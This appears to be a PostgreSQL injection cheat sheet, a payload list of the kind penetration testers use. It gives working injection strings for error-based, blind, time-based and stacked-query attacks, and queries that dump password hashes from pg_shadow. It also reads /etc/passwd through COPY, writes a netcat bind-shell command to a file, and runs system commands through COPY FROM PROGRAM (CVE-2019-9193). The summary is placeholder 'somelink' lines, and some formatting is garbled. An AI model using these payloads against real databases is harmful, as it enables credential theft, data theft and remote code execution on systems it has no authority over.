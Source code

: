 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>
somelink<br/>



<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL Version</h2>

```
SELECT version()
```

<h2>PostgreSQL Current User</h2>

```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

<h2>PostgreSQL List Users</h2>

```
SELECT usename FROM pg_user
```

<h2>PostgreSQL List Password Hashes</h2>

```
SELECT usename, passwd FROM pg_shadow 
```

<h2>PostgreSQL List Database Administrator Accounts</h2>

```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

<h2>PostgreSQL List Privileges</h2>

```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

<h2>PostgreSQL Database Name</h2>

```
SELECT current_database()
```

<h2>PostgreSQL List Database</h2>

```
SELECT datname FROM pg_database
```

<h2>PostgreSQL List Tables</h2>

```
SELECT table_name FROM information_schema.tables
```

<h2>PostgreSQL List Columns</h2>

```
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

<h2>PostgreSQL Error Based</h2>

```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

<h2>PostgreSQL Blind</h2>

```
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

<h2>PostgreSQL Time Based</h2>

```
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

<h2>PostgreSQL Stacked Query</h2>

```
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

<h2>PostgreSQL File Read</h2>

```
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```
NOTE: ``pg_read_filedoesn't accept the/` character.
```
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

<h2>PostgreSQL File Write</h2>

```
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

(#some-markdown-heading)
<h2>PostgreSQL Command execution</h2>
<h3>CVE-2019–9193</h3>

Can be used from Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
